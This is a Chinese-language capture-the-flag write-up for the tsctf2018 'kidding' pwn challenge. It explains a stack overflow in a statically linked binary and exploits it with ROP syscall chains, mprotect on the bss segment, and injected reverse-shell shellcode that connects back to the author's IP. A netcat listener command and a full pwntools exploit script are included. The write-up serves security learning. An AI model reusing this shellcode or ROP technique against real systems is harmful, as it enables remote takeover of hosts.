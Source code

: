 ```yaml
---
title: kidding
categories:
- tsctf2018
---
```

# tsctf->kidding

## 程序逻辑

这个程序非常简单，输出两句话，栈溢出。不过这里坑的是把标准输入输出和标准错误都给关掉了。另外程序是静态编译的，没有动态运行库，因此不存在got表之类的东西，考察的是ROP的运用。
(前天做梦梦到做出来了，昨天没做出来，晚上看了17的wp解决了困惑，今早终于做出来了Orz)

![main](./1.jpg)

## 漏洞利用

漏洞就是这个栈溢出，p4nda师傅说这种静态编译的一般都是用系统调用，关闭输入输出的情况下大多使用dup2把文件描述符复制到sockfd上，构造reverse shell，在本地开一个socket监听，远端连接本地socket，其shell里执行的结果会输出到我们接收的socket中，从而得到flag。主要思路是打开stdin、stdout和stderr，用sys_mprotect给bss段加上可执行权限，再将可以执行reverse_shell的shellcode写入到bss段，最终调转到这里执行即可

### step1

根据Linux64位的调用规则，rax存储syscall的系统调用号，rdi、rsi、rdx分别为函数调用从左到右的前三个参数存储的寄存器。使用ROPgadget可以找到可用的gadgets，下图为示例，其余同理。之后拼接凑成rop_function，可以接收三个参数并执行执行系统调用的函数

![gadgets](./2.jpg)

### step2

用step1得到的rop_funtion打开stdin,stdout,stderr。用类似的调用mprotect(0x601000,0x2000,7)。这里需要注意mprotect调用的地址需要是按页对齐的，范围len也是按页对齐的，即4kb的整数倍，2^12对应十六进制为0x1000的整数倍，因此虽然我选择写入shellcode的地址是0x602160(buf)，需要改变的却是整个段的执行权限，7表示rwx。

### step3

向bss段写入shellcode,这里的shellcode是网上找的[refernce](https://www.exploit-db.com/exploits/41477)，根据自己的IP地址把第一个push的字节码修改一下，比如我的ip是192.168.65.135，即把"\x68\xc0\xa8\x01\x2d"改成"\x68\xC0\xA8\x41\x87"。可以先将shellcode执行一遍看看是否无误，本地起监听的命令为
```shell
nc -l 4444 -vv
```
step3是遇到的最大的难题，因为我一直在寻找一个系统调用往指定地址写数据(甚至花了一天时间)。直到思而不得看了17的wp才发现自己实在是太笨了- -,哪需要什么系统调用去写数据，直接一个mov qword ptr des,[src]就能把数据挪过去，需要的是把数据放在栈上，然后pop des,pop src,mov des, [src]即可。这里还是用ROPgadget配合grep寻找，我们一次写入8字节，因此grep -F 'mov qword ptr ['即可。注意这里是rdi+0x20，因此我们的rdi应当是target_adddr - 0x20

![find](./3.jpg)

### step4

ret(0x602160)即可

## exp.py

```py
#coding=utf-8
from pwn import *
debug = 0
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
p = process('./kidding')
elf = ELF('./kidding')
if debug:
    gdb.attach(p,gdbscript="b *0x40029c")
#    gdb.attach(p,gdbscript="b *0x400740")

call_rbx = 0x400455
call_rax = 0x40024e

pop_rbx = 0x40045d
pop_rdi = 0x40077c
pop_rsi_r15 = 0x400d64
pop_rdx = 0x4005d5
pop_rax = 0x400121
mov_rdi_0x20_rax = 0x400c01
syscall = 0x400740
main_addr = 0x40025a

def rop_func(rax,rdi,rsi,rdx):
    payload = p64(pop_rax) + p64(rax) + p64(pop_rdi) + p64(rdi) + p64(pop_rsi_r15) + p64(rsi) + p64(0) + p64(pop_rdx) + p64(rdx) + p64(syscall)
    #payload += '6'*8*6
    return payload

def rop1_func(rax,rdi,rsi,rdx):
    payload = p64(pop_rax) + p64(rax) + p64(pop_rdi) + rdi + p64(pop_rsi_r15) + p64(rsi) + p64(0) + p64(pop_rdx) + p64(rdx) + p64(syscall)   
    return payload

def rop2_func(rax,rdi,rsi,rdx):
    payload = p64(pop_rax) + p64(rax) + p64(pop_rdi) + p64(rdi) + p64(pop_rsi_r15) + rsi + p64(0) + p64(pop_rdx) + p64(rdx) + p64(syscall)   
    return payload
reverse_shellcode = "\x68\xc0\xa8\x41\x87\x66\x68\x11\x5c\x66\x6a\x02\x6a\x2a\x6a\x10\x6a\x29\x6a\x01\x6a\x02\x5f\x5e\x48\x31\xd2\x58\x0f\x05\x48\x89\xc7\x5a\x58\x48\x89\xe6\x0f\x05\x48\x31\xf6\xb0\x21\x0f\x05\x48\xff\xc6\x48\x83\xfe\x02\x7e\xf3\x48\x31\xc0\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\x31\xf6\x56\x57\x48\x89\xe7\x48\x31\xd2\xb0\x3b\x0f\x05"
def write_to_bss():
    payload = ""
    total_len = len(reverse_shellcode)
    i = 0
    while total_len > 0:
        if total_len >= 8:
            payload += p64(pop_rax) + reverse_shellcode[i*8:i*8+8] + p64(pop_rdi) + p64(0x602160 - 0x20 + i * 8) + p64(mov_rdi_0x20_rax)
            i += 1
            total_len -= 8
        else:
            payload += p64(pop_rax) + reverse_shellcode[i*8:] + (8-len(reverse_shellcode[i*8:])) * '\x90' + p64(pop_rdi) + p64(0x602160 - 0x20 + i * 8) + p64(mov_rdi_0x20_rax)
            i += 1
            total_len = 0
    return payload
def exp():
    p.recvline()
    p.recvline()

    #reverse shell
    open0 = rop_func(2,0,2,7)
    open1 = rop_func(2,1,2,7)
    open2 = rop_func(2,2,2,7)
    change_bss = rop_func(10,0x601000,0x2000,7)
    #mov shellcode to bss

    payload = 'a'*0x18
    payload += open0 + open1 + open2 + change_bss + write_to_bss() + p64(0x602160)

    p.send(payload)
    p.interactive()
    p.close()

exp()
```
